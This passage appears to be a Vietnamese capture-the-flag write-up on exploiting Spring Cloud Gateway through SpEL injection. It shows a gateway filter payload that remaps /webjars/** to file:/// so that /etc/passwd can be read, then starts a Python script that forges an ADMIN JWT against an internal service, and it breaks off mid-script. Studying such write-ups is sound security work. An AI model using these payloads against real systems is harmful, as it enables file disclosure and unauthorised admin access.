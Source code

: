 - **Filter 3: Áp dụng thay đổi mapping**

```json 
{
  "name": "AddResponseHeader",
  "args": {
    "name": "Test",
    "value": "#{@resourceHandlerMapping.urlMap['/webjars/**'].afterPropertiesSet}"
  }
}
```

Mục đích:
- Gọi phương thức afterPropertiesSet của bean resourceHandlerMapping để áp dụng thay đổi mapping được thực hiện ở filter 2.
Hành động:
- Phương thức afterPropertiesSet được gọi để tái cấu hình bean resourceHandlerMapping, đảm bảo rằng mapping /webjars/** tới file:/// có hiệu lực.
Hậu quả:
- Các thay đổi mapping sẽ được kích hoạt ngay lập tức, cho phép attacker khai thác file system qua HTTP.

![image](https://hackmd.io/_uploads/SkEgYYPCel.png)

Thành công đọc được `etc/passwd` vậy là ta đã có hướng để có thể khai thác vào service nội bộ, bây giờ vẫn flow như cũ nhưng ta sẽ khai thác ở localhost:8082 là NewsMan service.

![image](https://hackmd.io/_uploads/BkT1AYwCge.png)

Ở phần security ta thấy nó xử lý phần authen bằng jwt 

![image](https://hackmd.io/_uploads/SytrRtDRgg.png)

Bên cạnh đó nó còn gọi thêm 1 biến role để gán vào jwt.

![image](https://hackmd.io/_uploads/ByyqAtvAxx.png)

Có 3 role chính là `ADMIN` `USER` `VIEWER` .

### Exploit

Bây giờ dựa vào POC ở bên trên đã cho ta thấy rằng SpEL Injection sử dụng CVE-2025-41243 và thành công đọc được `/etc/passwd` bây giờ ta sẽ sẽ khai thác service NewsMan.

{% raw %}
```python 
import base64
import hashlib
import hmac
import json
import time
import requests
import re

secret = 'fake_secret_for_testing'
base_url = 'http://localhost:8080'
headers = {'Content-Type': 'application/json'}

# === 1. Generate JWT token ===
def generate_jwt():
    key = hashlib.sha256(secret.encode()).hexdigest().encode()
    header = {'alg': 'HS256', 'typ': 'JWT'}
    payload = {
        'sub': 'admin',
        'role': 'ADMIN',
        'iat': int(time.time()),
        'exp': int(time.time()) + 3600
```